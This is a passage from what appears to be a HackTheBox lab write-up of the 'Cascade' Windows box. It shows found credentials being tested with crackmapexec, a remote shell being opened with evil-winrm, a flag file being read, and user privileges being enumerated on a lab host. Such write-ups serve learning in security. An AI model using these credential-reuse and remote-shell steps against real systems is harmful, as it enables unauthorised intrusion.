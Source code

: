 With these creds, `crackmapexec` shows that it is possible to get a shell over WinRM:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

I’ll use `Evil-WinRM` to get a shell:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
```

Grabbing the `user.txt`:

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
...SNIP...
```

Enumerating the OS Version, I found out that the machine is actually `Windows 2008`:

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
6      1      7601   65536
```

Enumerating the user `s.smith` to find a horizontal/ vertical priv esc:

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
